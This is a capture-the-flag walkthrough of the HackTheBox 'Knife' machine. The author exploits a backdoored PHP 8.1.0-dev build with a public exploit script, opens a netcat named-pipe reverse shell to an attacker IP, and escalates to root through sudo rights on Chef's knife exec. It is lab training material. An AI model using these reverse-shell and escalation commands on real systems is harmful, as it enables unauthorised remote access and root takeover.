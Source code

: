 ```yaml
---
title: "Walk-through of Knife from HackTheBox"
header:
  teaser: /assets/images/2021-09-19-22-50-03.png
toc: true
toc_sticky: true
excerpt_separator:  <!--more-->
categories:
  - CTF
tags:
  - HTB
  - CTF
  - Linux
  - 8.1.0-dev
  - Chef
  - Knife
---
```


## Machine Information

![knife](/assets/images/2021-09-19-22-50-03.png)

Knife is rated as an easy machine on HackTheBox. An initial scan reveals a simple website running on port 80. Examining headers we discover it's running on a backdoored version of PHP. Using a public exploit we get an initial shell. From there we move to a more useable reverse shell, and enurmeration finds sudo privleges for Knife. We use this Chef command line tool to escalate to root to complete the box.

<!--more-->

Skills required are basic enumeration knowledge and researching exploits. Skills learned are exploiting vulnerable software and using Knife for escalation of privleges.

| Details |  |
| --- | --- |
| Hosting Site | [HackTheBox](https://www.hackthebox.eu) |
| Link To Machine | [HTB - Easy - Knife](https://www.hackthebox.eu/home/machines/profile/347) |
| Machine Release Date | 22nd May 2021 |
| Date I Completed It | 20th September 2021 |
| Distribution Used | Kali 2021.2 – [Release Info](https://www.kali.org/blog/kali-linux-2021-2-release/) |

## Initial Recon

As always let's start with Nmap:

```text
┌──(root💀kali)-[~/htb/knife]
└─# ports=$(nmap -p- --min-rate=1000 -T4 10.10.10.242 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)

┌──(root💀kali)-[~/htb/knife]
└─# nmap -p$ports -sC -sV -oA knife 10.10.10.242
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-19 22:54 BST
Nmap scan report for 10.10.10.242
Host is up (0.069s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We find just two open ports, with ssh on 22 a no go for now. Let's see what's running on Apache on port 80:

![knife-website](/assets/images/2021-09-19-22-56-59.png)

A simple web page is all that's here. With nothing in the source code I used cURL to check the headers:

```text
┌──(root💀kali)-[~/htb/knife]
└─# curl -v http://10.10.10.242
*   Trying 10.10.10.242:80...
* Connected to 10.10.10.242 (10.10.10.242) port 80 (#0)
> GET / HTTP/1.1
> Host: 10.10.10.242
> User-Agent: curl/7.74.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Sun, 19 Sep 2021 21:55:41 GMT
< Server: Apache/2.4.41 (Ubuntu)
< X-Powered-By: PHP/8.1.0-dev
< Vary: Accept-Encoding
< Transfer-Encoding: chunked
< Content-Type: text/html; charset=UTF-8
```

Note in the response we see X-Powered-By. A good explanation of headers in general is [here](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers) on the Mozilla dev site. For X-Powered-By it says:

```text
X-Powered-By
May be set by hosting environments or other frameworks and contains information about them while not providing any usefulness to the application or its visitors. Unset this header to avoid exposing potential vulnerabilities.
```

I'm wondering why this site would be running a dev version of PHP, looking on exploit-db I find the answer [here](https://www.exploit-db.com/exploits/49933):

```text
An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.
The following exploit uses the backdoor to provide a pseudo shell ont the host.
```

## PHP Exploit

So this site is running a backdoored version of PHP, let's grab the exploit and try it:

```text
┌──(root💀kali)-[~/htb/knife]
└─# searchsploit 8.1.0-dev
--------------------------------------------------------------- ---------------------------------
 Exploit Title                                                 |  Path
--------------------------------------------------------------- ---------------------------------
PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution            | php/webapps/49933.py
--------------------------------------------------------------- ---------------------------------

┌──(root💀kali)-[~/htb/knife]
└─# searchsploit -m php/webapps/49933.py
  Exploit: PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution
      URL: https://www.exploit-db.com/exploits/49933
     Path: /usr/share/exploitdb/exploits/php/webapps/49933.py
File Type: Python script, ASCII text executable
Copied to: /root/htb/knife/49933.py
                         
┌──(root💀kali)-[~/htb/knife]
└─# python3 ./49933.py
Enter the full host url:
http://10.10.10.242

Interactive shell is opened on http://10.10.10.242 
Can't acces tty; job crontol turned off.
$
```

## User Flag

That was nice and easy to get a basic shell. Let's have a quick look around:

```text
$ whoami
james

$ pwd
/

$ ls -l
lrwxrwxrwx   1 root root     7 Feb  1  2021 bin -> usr/bin
drwxr-xr-x   4 root root  4096 Jul 23 13:37 boot
drwxr-xr-x   2 root root  4096 May  6 14:10 cdrom
drwxr-xr-x  19 root root  4020 Sep 20 09:01 dev
drwxr-xr-x  99 root root  4096 May 18 13:25 etc
drwxr-xr-x   3 root root  4096 May  6 14:44 home
<SNIP>
drwxr-xr-x   2 root root  4096 Feb  1  2021 srv
dr-xr-xr-x  13 root root     0 Sep 20 09:01 sys
drwxrwxrwt  17 root root 12288 Sep 20 19:25 tmp
drwxr-xr-x  15 root root  4096 May 18 13:20 usr
drwxr-xr-x  14 root root  4096 May  9 04:22 var

$ cat /home/james/user.txt
<HIDDEN>
```

I'm connected as the user James so I've grabbed the flag, now let's start a netcat listener in another terminal and connect to it to get a proper shell:

```text
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.211 4444 >/tmp/f
```

Switch to my waiting nc session to see we're connected:

```text
┌──(root💀kali)-[~/htb/knife]
└─# nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.211] from (UNKNOWN) [10.10.10.242] 50628
/bin/sh: 0: can't access tty; job control turned off
$
```

## Privilege Escalation

I had a quick look around but one of the first things to check is sudo rights, which was the right path for this box:

```text
$ sudo -l 
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

I'd not heard of knife before, but running it reveals more:

```text
$ sudo /usr/bin/knife
ERROR: You need to pass a sub-command (e.g., knife SUB-COMMAND)

Usage: knife sub-command (options)
    -s, --server-url URL             Chef Infra Server URL.
        --chef-zero-host HOST        Host to start Chef Infra Zero on.
        --chef-zero-port PORT        Port (or port range) to start Chef Infra Zero on. Port ranges like 1000,1010 or 8889-9999 will try all given ports until one works.
    -k, --key KEY                    Chef Infra Server API client key.
        --[no-]color                 Use colored output, defaults to enabled.
    -c, --config CONFIG              The configuration file to use.
        --config-option OPTION=VALUE Override a single configuration option.
```

Knife is a command line tool for Chef which is an automation platform. From the Chef site [here](https://docs.chef.io/platform_overview/):

```text
Chef Infra is a powerful automation platform that transforms infrastructure into code. Whether you’re operating in the cloud, on-premises, or in a hybrid environment, Chef Infra automates how infrastructure is configured, deployed, and managed across your network, no matter its size.
```

## Root Flag

A look around the docs I found [this](https://docs.chef.io/workstation/knife_exec) which shows how to use knife to execute Ruby scripts. I also found [this](https://manned.org/knife-exec/dd85a3df) which shows you can also use it to run commands. So privilege escalation is trivial with our sudo permissions:

```text
$ sudo knife exec --exec "exec '/bin/sh -i'"
/bin/sh: 0: can't access tty; job control turned off
# whoami
root

# id
uid=0(root) gid=0(root) groups=0(root)

# cat /root/root.txt
<HIDDEN>
```

All done. See you next time.
